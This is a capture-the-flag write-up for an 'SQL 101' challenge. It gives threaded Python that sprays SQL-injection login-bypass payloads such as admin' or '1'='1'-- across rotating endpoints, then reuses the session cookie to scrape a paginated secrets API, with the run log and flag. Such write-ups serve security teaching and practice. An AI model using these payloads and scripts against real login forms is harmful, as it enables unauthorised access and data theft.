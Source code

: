 # SQL 101 CTF Challenge Writeup

**Solved by**: thorn5011

## tl;dr

1. Getting all endpoints
2. Finding the one with the SQL injection vulnerability
3. Getting a session token
4. Paginate through all "secret" pages
5. ????
6. PROFIT!!!


## Intro

Based off the challenge description we know the following:
- We know we have 60 seconds before our sessions timeout
- Login endpoints rotate each 30 seconds

This seems a bit annoying, but we'll try. Since the challenge is called "SQL 101", we can be *pretty* certain that there will be a SQL injection somewhere.

## Login

The URL https://dragonslayerz-70ff-allthoseforms.ept.gg/login show us a loooot of logins.. there will be no manual testing here.. :(

![login.png](./assets/login.png)

It is probably not a hard injection to find since there are other challenge parameters to take into consideration so we will just test a few simple ones from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass).

Endpoint example: `https://dragonslayerz-70ff-allthoseforms.ept.gg/login/oSqsOlTWk5` where `oSqsOlTWk5` will be unique for each endpoint and it changes every 30 seconds. We can extract them with python -> `re.findall(r'action="/login/(.+?)"', response.text)`.

Since we have a short time before the endpoints rotate and we have ~100 of them to hit, we'll use threads in python.

```py

injects = [
    "admin' or '1'='1'--",
    "admin' or '1'='1",
    "admin' or '1'='1'#",
    ## ...
]


def get_endpoints() -> list:
    response = requests.get(url)
    res = re.findall(r'action="/login/(.+?)"', response.text)
    return res


def check_for_sql(endpoint:str, inject:str):
    full = url + "/" + endpoint
    response = session.post(full, data={"username": inject, "password": "a" + inject}, allow_redirects=True)
    if "Invalid login credentials" in response.text:
        return True
    elif "Either the server is overloaded" in response.text:
        return False
    else:
        print(f"[!] SQL Injection found at {endpoint} with: >> {inject} <<")
        global vuln_endpoint
        vuln_endpoint = endpoint
        return True

def run_check(endpoint):
    for inject in injects:
        while check_for_sql(endpoint, inject) is False:
            time.sleep(0.3)

def find_endpoint():
    endpoints = get_endpoints()
    threads = []
    for endpoint in endpoints:
        thread = threading.Thread(target=run_check, args=(endpoint,))
        threads.append(thread)
        thread.start()

    for thread in threads:
        thread.join()


if __name__ == "__main__":
    find_endpoint()
```
Log: `[!] SQL Injection found at d2jRjJQxz3 with: >> admin' or '1'='1'-- <<`

This gives ut what we need - `admin' or '1'='1'--` will be used to inject.

## Beyond the login

After a successful login we can find a reference to some "API docs"

```html
We are currently building out features, but check out the <a href="/api-docs" style="text-decoration: none; color: inherit;">API documentation</a> if you can't wait.
```

We also get a `session` we can use..for 60 seconds.. I assume there will be some reason for us to refresh it down the line.

```py
{
    'User-Agent': 'python-requests/2.32.3', 
    'Accept-Encoding': 'gzip, deflate, zstd',
    'Accept': '*/*',
    'Connection': 'keep-alive',
    'Cookie': 'session=eyJ1c2VyX2lkIjoxfQ.ZyvZ5g.esIJ0y3NmtmN2CP2pRgCHi8LHHQ'
}
```

## API docs

Looking at the docs we can see an endpoint -> `api/secrets`.
```html
<pre>
<b>Parameters:</b>
- <b>page</b> (optional): The page number to retrieve (default is 1).
- <b>page_size</b> (optional): The number of secrets per page. Can be 5, 10, or 20 (default is 5).

<b>Returns:</b> A JSON object with the following fields:
- <b>page</b>: The current page number.
- <b>page_size</b>: The number of secrets per page.
- <b>total_pages</b>: The total number of pages available.
- <b>secrets</b>: A JSON array of message objects for the current page.

<b>Example request:</b>
curl -X GET "http://example.com/api/secrets?page=2&page_size=10"

<b>Example response:</b>
{
"page": 2,
"page_size": 10,
"total_pages": 5,
"secrets": [
    {
    "id": 11,
    "text": "Message on page 2"
    },
    {
    "id": 12,
    "text": "Another message on page 2"
    }
]
}
</pre>
```

## Secrets

This means we can try and grab all the secrets as longs as we do some pagination on the `page` parameter.

```py
def get_secrets(session):
    data = []
    full = url.replace("/login","/api/secrets")
    response = session.get(full, params={"page": 1, "page_size": 20})
    for i in range(1, response.json()["total_pages"]):
        print(f"[+] Getting page {i}")
        response = session.get(full, params={"page": i, "page_size": 20})
        try:
            data.append(response.json()["secrets"])
        except requests.exceptions.JSONDecodeError:
            print(f"[!] Failed to decode JSON on page {i}")
            if "Your flash messages here" in response.text:
                print(f"[+] Found flash messages, sessions timed out")
            session = goinject() ## refresh session
    print(f"[+] Secrets: {len(data)}")
    with open("results.txt", "w") as file:
        file.write(f"[+] Secrets:\n{json.dumps(data, indent=4)}\n\n")
```

One "secret" looks like this `{'id': 1, 'text': 'Like new make admit smile between buy wall.'}`. There will for sure be a flag there so we will try and extract it.

## Results

Putting this all together we get the final [script](solve.py), which when executed leaves us with the flag.

```sh
[+] Starting..
[!] SQL Injection found at qlw08LFFv9 with: >> admin' or '1'='1'-- <<
[+] Successfully injected at 'https://dragonslayerz-70ff-allthoseforms.ept.gg/login/qlw08LFFv9'
[+] Total pages: 126
[+] Starting to get secrets..
.................................................
[!] Failed to decode JSON on page 50, refreshing session

[!] SQL Injection found at lMy0Uxq5yE with: >> admin' or '1'='1'-- <<
[+] Successfully injected at 'https://dragonslayerz-70ff-allthoseforms.ept.gg/login/lMy0Uxq5yE'
................................................................
[!] Failed to decode JSON on page 114, refreshing session

[!] SQL Injection found at fMP4ZemaCm with: >> admin' or '1'='1'-- <<
[+] Successfully injected at 'https://dragonslayerz-70ff-allthoseforms.ept.gg/login/fMP4ZemaCm'
...........

[+] Found secret: EPT{0ae0fbea-9a8c-4b2c-8e33-b383c8c8f94f}
[+] Time taken: 116.41542053222656
[+] Done
```
